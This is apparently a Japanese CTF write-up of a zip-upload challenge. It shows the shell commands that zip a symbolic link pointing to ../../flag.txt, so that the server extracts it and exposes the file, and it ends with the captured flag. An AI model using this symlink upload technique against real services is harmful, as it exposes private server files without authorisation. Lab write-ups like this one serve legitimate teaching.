



# Compressing Decompressing

```txt
Compressing and Decompressing is fun...or is it!
http://chall.nitdgplug.org:30013/
```

## Solution

問題にアクセスすると、Zip ファイルがアップロードできるページが表示されます。



試しに `test` と記載した `hoge.txt` を圧縮して `hoge.zip` を作り、アップロードしてみます。

するとページ内で解答して、以下のように内容に直接アクセスすることができました。

`http://chall.nitdgplug.org:30013/a3fcefc7add76a3222dfa32fb017e7c2/hoge.txt`



これにより、シンボリックリンクを使った Zip ファイルをアップロードしてサーバ内のファイルにアクセスできる脆弱性がありそうと推測します。 (`The Zip Symlink Exploit`)

ここで得たい flag が サーバ内の `../../flag.txt` にあると推測してシンボリックリンク設定した `flag,txt` を作成します。

そしてそれを Zip ファイルに入れます。

```shell
$ ln -s ../../flag.txt
$ zip --symlinks file.zip flag.txt
$ file *
file.zip: Zip archive data, at least v1.0 to extract
flag.txt: broken symbolic link to ../../flag.txt
```

これで `flag.txt` にシンボリックリンクを `../../flag.txt` を設定することで、アップロードされたサーバ内にある `flag.txt` の内容をエクスポートします。

なのでアップロードしたファイルを閲覧することでサーバ内のファイルを見ることができます。

最終的に `file.zip` をアップロードして`file.txt` を閲覧すると、シンボリックリンクでサーバ内にある `../../flag.txt` の内容を見ることができました。



## Flag

flag : `GLUG{5ymb0l1c_l1nk5_4r3_5ymb0l1c_0f_1n53cur17i35}`